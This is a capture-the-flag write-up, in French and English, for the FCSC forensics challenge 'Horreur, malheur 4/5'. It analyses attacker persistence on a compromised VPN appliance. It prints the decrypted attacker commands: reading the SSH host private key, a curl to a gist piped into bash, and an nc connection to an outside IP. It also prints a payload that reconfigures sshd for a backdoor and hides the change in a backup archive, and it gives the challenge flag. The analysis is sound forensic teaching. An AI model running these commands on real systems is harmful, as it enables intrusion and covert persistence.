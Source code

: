 # Horreur, malheur 4/5 - Pas si simple persistance

## Challenge
Introduction commune à la série Horreur, malheur

Vous venez d'être embauché en tant que Responsable de la Sécurité des Systèmes d'Information (RSSI) d'une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : VPN compromis (intégrité). Version 22.3R1 b1647.

Note : La première partie (Archive chiffrée) débloque les autres parties, à l'exception de la seconde partie (Accès initial) qui peut être traitée indépendamment. Nous vous recommandons de traiter les parties dans l'ordre.

Vous remarquez qu'une fonctionnalité built-in de votre équipement ne fonctionne plus et vous vous demandez si l'attaquant n'a pas utilisé la première persistance pour en installer une seconde, moins "visible"...

Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d'établir la persistance.

> Le flag est au format : FCSC{<protocole>:<port>:<chemin_absolu>:<chemin_absolu>}.

## Decrypted traffic from part3
```console
$ python3 sol.py
cat /data/runtime/etc/ssh/ssh_host_rsa_key
/home/bin/curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a
cat /tmp/a | grep "name" | /pkg/uniq | cut -d ":" -f 2 | cut -d '"' -f 2 | tr -d '' | grep -o . | tac | tr -d ''  > /tmp/b
a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";/home/bin/curl -k -s ${c} | grep 'raw_url' | cut -d '"' -f 4 > /tmp/c
c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash
rm /tmp/a /tmp/b /tmp/c
nc 146.0.228.66:1337
```

Let's see what this is doing one step at a time:
```console
$ cat /tmp/b
degbf1b75ea202a92df5b9f151535b7f19fez4x

$ cat /tmp/c
https://gist.githubusercontent.com/joke-finished/f1b75ea202a92df5b9f151535b7f19fe/raw/ae0bca6e36064e1c810aa55960a6e30b94f64fca/gistfile1.txt

$ c=`cat /tmp/c`;curl -k ${c} -s
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
pkill sshd-ive > /dev/null 2>&1
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
mv /data/pkg/data-backup.tar.gz /data/pkg/data-backup.tgz > /dev/null 2>&1
```

To establish this persistence, the attacker modifies the `ssh` config in `/data/runtime/etc/ssh/sshd_server_config` to use `port 1337` by allowing the use of Public key Authentication. The attacker also stores the updated `ssh config` in file `/data/pkg/data-backup.tgz` by unzipping the `tar archive`, adding the `ssh config` file to it and rezipping it:
- used protocol: ssh
- used port: 1337
- modified config: /data/runtime/etc/ssh/sshd_server_config
- modified file to establish the persistence: /data/pkg/data-backup.tgz

## Flag
> FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/pkg/data-backup.tgz}
